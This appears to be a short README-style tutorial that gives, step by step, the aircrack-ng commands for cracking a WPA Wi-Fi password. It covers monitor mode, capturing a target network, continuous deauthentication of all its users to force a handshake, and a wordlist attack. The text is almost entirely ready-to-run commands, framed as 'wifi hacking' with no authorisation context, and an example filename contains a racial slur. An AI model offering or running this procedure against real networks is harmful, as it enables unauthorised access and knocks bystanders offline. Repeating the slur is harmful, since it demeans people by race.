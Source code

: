 Before putting a Wi-Fi adapter into **monitor mode** (required for packet sniffing, WEP/WPA cracking, etc.), some background processes (like `NetworkManager`, `wpa_supplicant`, or `dhclient`) may conflict.

- This command identifies and kills those processes to ensure a clean setup for wireless attacks.

```
sudo airmon-ng check kill
```

Now we need enable monitor-mode to the interface wlan0

- puts the wifi adapter into monitor-mode allowing it to capture all wireless traffic in the vicinity
- Essential for wifi hacking, packet sniffing and security testing 

```
sudo airmon-ng start wlan0
```

Next step:
- Detect nearby wifi networks
- monitor connected clients
- capture packets

```
sudo airodump-ng wlan0mon
```

Now monitor a specific wifi network and save the data to a file for further analysis 

```
sudo airodump-ng -w [Filename] -c [Channel] --bssid [MAC address] wlan0mon
```
eg:
```
sudo airodump-ng -w hackernigga -c 4 --bssid BC:62:D2:52:47:10 wlan0mon
```

Now we need to disconnect all the users that connected to wifi network
 - Run the command

```
sudo aireplay-ng --deauth 0 -a [MAC address] wlan0mon
```
wait unti to get the WPA handshake

After getting the handshake stop the monitor-mode

```
sudo airmon-ng stop wlan0mon
```

After that run the following command to crack the Handshake

```
sudo aircrack-ng [filename.cap] -w [path to wordlist]
```
